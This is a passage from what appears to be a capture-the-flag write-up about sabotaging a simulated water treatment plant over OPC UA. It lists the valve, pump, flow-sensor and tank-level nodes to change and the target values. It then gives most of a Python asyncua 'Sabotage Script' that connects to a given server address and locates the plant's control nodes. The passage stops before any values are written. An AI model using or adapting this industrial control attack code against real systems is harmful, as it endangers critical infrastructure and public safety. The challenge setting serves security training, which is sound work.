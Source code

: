 ### Step 4: Target Parameter Identification

Based on the challenge requirements, we need to modify:
1. **Inlet valve to 100% open** → `WaterTreatmentPlant/Valve/PercentOpen` = 100
2. **Pump speed to 1600 RPM** → `WaterTreatmentPlant/Pump/Speed` = 1600  
3. **Flow sensor to 4 L/s** → `WaterTreatmentPlant/Sensors/FlowRate` = 4
4. **Tank water level to 5m** → `WaterTreatmentPlant/Tank/WaterLevel` = 5

### Step 5: Complete Sabotage Implementation

```python
#!/usr/bin/env python3
"""
OPC UA Water Treatment Plant Sabotage Script
"""

import asyncio
from asyncua import Client

async def sabotage_water_plant():
    url = "opc.tcp://94.237.123.14:50504"
    
    try:
        print("🔧 Connecting to OPC UA server...")
        client = Client(url=url)
        await client.connect()
        print("✓ Connected successfully!")
        
        # Navigate to WaterTreatmentPlant
        objects = client.get_objects_node()
        children = await objects.get_children()
        
        plant = None
        for child in children:
            name = await child.read_browse_name()
            if name.Name == "WaterTreatmentPlant":
                plant = child
                break
        
        if not plant:
            print("❌ WaterTreatmentPlant not found")
            return
        
        print("🎯 Found WaterTreatmentPlant, executing sabotage...")
        
        # Get all components
        components = await plant.get_children()
        
        # Find each component
        valve_node = None
        pump_node = None
        sensors_node = None
        tank_node = None
        maintenance_node = None
        
        for comp in components:
            name = await comp.read_browse_name()
            if name.Name == "Valve":
                valve_node = comp
            elif name.Name == "Pump":
                pump_node = comp
            elif name.Name == "Sensors":
                sensors_node = comp
            elif name.Name == "Tank":
```